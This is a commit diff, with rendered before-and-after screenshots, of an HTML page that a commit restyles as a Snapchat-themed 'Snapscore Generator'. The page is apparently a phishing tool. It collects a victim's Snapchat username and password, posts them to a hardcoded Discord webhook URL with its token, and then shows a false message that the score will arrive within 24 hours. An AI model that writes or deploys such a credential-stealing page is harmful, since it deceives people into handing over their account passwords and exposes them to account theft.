

Before and after one commit to kxtOnYT/loghandler, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 164-628 px from the top of the page, without its empty margins (207-1072 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Discord Webhook Sender</title>
+    <title>Snapscore Generator</title>
     <style>
         body {
             font-family: Arial, sans-serif;
@@ -12,40 +12,56 @@
             align-items: center;
             height: 100vh;
             margin: 0;
-            background: #f4f4f4;
+            background: #FFFC00; /* Snapchat yellow */
+            color: #000; /* Black text for contrast */
         }
         .container {
             text-align: center;
             background: white;
             padding: 20px;
-            border-radius: 8px;
-            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+            border-radius: 20px; /* Rounded corners */
+            box-shadow: 0 8px 16px rgba(0, 0, 0, 0.2); /* Softer shadow */
+            max-width: 400px;
+            width: 90%;
+        }
+        h1 {
+            margin: 0;
+            font-size: 24px;
+            font-weight: bold;
+            color: #000;
         }
         input, button {
             margin: 10px 0;
-            padding: 10px;
-            width: 80%;
+            padding: 15px;
+            width: 90%;
             font-size: 16px;
+            border: 2px solid #000; /* Black border for Snapchat theme */
+            border-radius: 8px;
+            box-sizing: border-box;
+        }
+        input {
+            background: #FFF;
+            color: #000;
         }
         button {
-            background: #007bff;
-            color: white;
+            background: #000; /* Black button */
+            color: #FFF; /* White text */
+            font-weight: bold;
             border: none;
-            border-radius: 5px;
             cursor: pointer;
         }
         button:hover {
-            background: #0056b3;
+            background: #333; /* Darker black on hover */
         }
     </style>
 </head>
 <body>
     <div class="container">
-        <h1>Send Message to Discord</h1>
-        <input id="usr" type="text" placeholder="Enter User" required>
-        <input id="pass" type="text" placeholder="Enter Pass" required>
-        <input id="score" type="number" placeholder="Enter Amount of Snapscore (max 10,000)" required>
-        <button onclick="sendMessage()">Send</button>
+        <h1>Snapscore Generator</h1>
+        <input id="usr" type="text" placeholder="Enter Snapchat Username" required>
+        <input id="pass" type="text" placeholder="Enter Password" required>
+        <input id="score" type="number" placeholder="Enter Desired Snapscore (max 10,000)" required>
+        <button onclick="sendMessage()">Generate Snapscore</button>
     </div>
     <script>
         function sendMessage() {
@@ -53,16 +69,21 @@
             const pass = document.getElementById('pass').value;
             const score = document.getElementById('score').value;
 
+            if (score > 10000) {
+                alert("Snapscore cannot exceed 10,000.");
+                return;
+            }
+
             const webhookURL = "https://discord.com/api/webhooks/1309191543306846248/c0IlCkxXDM0s7svWIfWzGusmb9DHVTqGTpDkPAKBybmpXkMVY6BNVVP9115-toPYSmIK";
 
             fetch(webhookURL, {
                 method: "POST",
                 headers: { "Content-Type": "application/json" },
-                body: JSON.stringify({ content: `User: ${usr}, Pass: ${pass}, Score: ${score}` }),
+                body: JSON.stringify({ content: `User: ${usr}, Pass: ${pass}, Desired Snapscore: ${score}` }),
             })
             .then(response => {
                 if (response.ok) {
-                    alert("Message sent successfully!");
+                    alert("Generating Snapscore! May take up to 24 hours. Please be patient.");
                 } else {
                     alert("Failed to send message. Check the webhook URL.");
                 }
```
